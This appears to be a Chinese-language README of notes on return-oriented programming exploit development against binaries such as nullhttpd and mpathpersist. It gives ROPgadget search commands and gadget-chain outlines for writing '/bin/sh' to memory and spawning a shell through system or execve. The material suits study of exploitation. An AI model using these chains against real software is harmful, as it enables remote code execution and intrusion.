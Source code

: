 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary mpathpersist.bin --only "mov|ret"
ROPgadget --binary mpathpersist.bin --only "mov|pop|ret"
ROPgadget --binary mpathpersist.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S nullhttpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
---------------------------
mov qword ptr [rbx], rax ; add rsp, 0x18 ; pop rbx ; pop rbp ; ret

mov byte ptr [rbp], 0 ; pop rbx ; pop rbp ; pop r12 ; ret
add dword ptr [rbp - 0x3d], ebx ; nop ; ret



```

调用sys（设置参数rdi）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "eax"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
设置0然后add或sub
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
-------------------
设置rdx|edx -> 0

shl edx
xor
mov rdx, qword ptr [rbp - 8] ; mov qword ptr [rax], rdx ; pop rbp ; ret
xor edx, edx ; mov eax, edx ; pop rbx ; ret
shl edx, 4 ; add eax, edx ; ret  *8 time

0x0000000000423e58 : movzx edx, word ptr [rbp - 0x1c] ; mov word ptr [rax + 0x10], dx ; pop rbp ; ret

```

```
ROPgadget --binary install-info.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary vmd.bin | grep -v "retf" | grep "ret" | grep -v "ret 0x" | grep -v "leave" | grep -v "\[rdx" | grep -v "\[edx" | grep "dx"

ROPgadget --binary vmd.bin | grep -v "jmp" | grep "mov qword"
ROPgadget --binary vmd.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep -v "ret 0x"  | grep "mov qword"
ROPgadget --binary vmd.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep -v "ret 0x"  | grep "\["
ROPgadget --binary vmd.bin | grep -v "retf" | grep -v "ret" | grep -v "leave" | grep -v "ret 0x"  | grep "\["

ROPgadget --binary install-info.bin | grep "syscall"

```
## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
